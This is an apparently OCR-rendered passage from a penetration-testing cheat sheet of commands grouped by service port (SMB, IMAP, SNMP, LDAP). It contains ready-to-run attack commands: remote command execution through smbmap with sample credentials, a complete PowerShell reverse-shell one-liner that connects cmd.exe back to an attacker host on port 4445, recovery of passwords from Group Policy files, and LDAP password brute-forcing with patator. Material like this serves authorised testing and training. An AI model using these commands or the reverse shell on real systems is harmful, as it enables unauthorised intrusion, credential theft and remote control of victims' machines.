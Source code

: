 ```bash
# smbmap
smbmap.py -H 10.11.1.111 -u administrator -p asdf1234 #Enum
smbmap.py -u username -p 'P@$$w0rd1234!' -d DOMAINNAME -x 'net group "Domain Admins" /domain' -H 10.11.1.111 #RCE
smbmap.py -H 10.11.1.111 -u username -p 'P@$$w0rd1234!' -L # Drive Listing
smbmap.py -u username -p 'P@$$w0rd1234!' -d ABC -H 10.11.1.111 -x 'powershell -command "function ReverseShellClean {if ($c.Connected -eq $true) {$c.Close()}; if ($p.ExitCode -ne $null) {$p.Close()}; exit; };$a=""""192.168.0.X""""; $port=""""4445"""";$c=New-Object system.net.sockets.tcpclient;$c.connect($a,$port) ;$s=$c.GetStream();$nb=New-Object System.Byte[] $c.ReceiveBufferSize  ;$p=New-Object System.Diagnostics.Process  ;$p.StartInfo.FileName=""""cmd.exe""""  ;$p.StartInfo.RedirectStandardInput=1  ;$p.StartInfo.RedirectStandardOutput=1;$p.StartInfo.UseShellExecute=0  ;$p.Start()  ;$is=$p.StandardInput  ;$os=$p.StandardOutput  ;Start-Sleep 1  ;$e=new-object System.Text.AsciiEncoding  ;while($os.Peek() -ne -1){$out += $e.GetString($os.Read())} $s.Write($e.GetBytes($out),0,$out.Length)  ;$out=$null;$done=$false;while (-not $done) {if ($c.Connected -ne $true) {cleanup} $pos=0;$i=1; while (($i -gt 0) -and ($pos -lt $nb.Length)) { $read=$s.Read($nb,$pos,$nb.Length - $pos); $pos+=$read;if ($pos -and ($nb[0..$($pos-1)] -contains 10)) {break}}  if ($pos -gt 0){ $string=$e.GetString($nb,0,$pos); $is.write($string); start-sleep 1; if ($p.ExitCode -ne $null) {ReverseShellClean} else {  $out=$e.GetString($os.Read());while($os.Peek() -ne -1){ $out += $e.GetString($os.Read());if ($out -eq $string) {$out="""" """"}}  $s.Write($e.GetBytes($out),0,$out.length); $out=$null; $string=$null}} else {ReverseShellClean}};"' # Reverse Shell

# Check
\Policies\{REG}\MACHINE\Preferences\Groups\Groups.xml look for user&pass "gpp-decrypt "
```

### Port 143/993 IMAP

REF: Postfish

Banner Grab

```bash
telnet 10.11.1.111 143 #Connect to read emails

openssl s_client -connect 10.11.1.111:993 -quiet  #Encrypted connection
```

### Port 161/162 UDP - SNMP

```bash
nmap -vv -sV -sU -Pn -p 161,162 --script=snmp-netstat,snmp-processes 10.11.1.111
snmp-check 10.11.1.111 -c public|private|community

```

### LDAP - 389,636

```bash
ldapsearch -h 10.11.1.111 -p 389 -x -b "dc=mywebsite,dc=com"
ldapsearch -x -h 10.11.1.111 -D 'DOMAIN\user' -w 'hash-password'
ldapdomaindump 10.11.1.111 -u 'DOMAIN\user' -p 'hash-password'
patator ldap_login host=10.10.1.111 1=/root/Downloads/passwords_ssh.txt user=hsmith password=FILE1 -x ignore:mesg='Authentication failed.'
```
